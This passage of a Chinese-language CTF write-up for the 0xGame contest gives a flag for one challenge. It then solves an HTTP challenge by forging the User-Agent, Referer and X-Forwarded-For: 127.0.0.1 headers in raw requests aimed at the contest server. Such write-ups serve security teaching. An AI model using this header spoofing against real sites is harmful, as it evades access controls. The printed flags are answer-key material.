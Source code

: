 payload：<code>./?0xGame=acd666tql</code>
post:<code>X1cT34m=acd666tql</code>

问题解决：0xGame{Get_4nd_P0sT_1s_eA5y}

<hr />
<h2>wh1sper's_secret_garden</h2>
<h3>考察http协议</h3>
<h5>题目地址：<a class="url" href="http://web.game.0xctf.com:30050/" target="_blank" rel="noopener noreferrer">http://web.game.0xctf.com:30050/</a></h5>
打开发现：
<pre><code>你需要使用wh1sper浏览器来访问
什么？没有？
没有wh1sper浏览器还想打web？
</code></pre>
抓包改包,浏览器改成wh1sper
<pre><code>GET / HTTP/1.1
Host: web.game.0xctf.com:30050
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) wh1sper/84.0.4147.135 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

</code></pre>
然后发现
<pre><code>你需要来自：https://ctf.njupt.edu.cn/
</code></pre>
伪造地址三种方式：
<pre><code>Client-Ip: 127.0.0.1
X-Forwarded-For: 127.0.0.1
Host: 127.0.0.1
Referer: 127.0.0.1
</code></pre>
这里<code>Referer: https://ctf.njupt.edu.cn/</code>

再发包，发现
<pre><code>你得从本地访问才行哟！
</code></pre>
改包，加上<code>X-Forwarded-For: 127.0.0.1</code>
<h3>最终</h3>
发包：
<pre><code>GET / HTTP/1.1
Host: web.game.0xctf.com:30050
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Referer: https://ctf.njupt.edu.cn/
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) wh1sper/84.0.4147.135 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
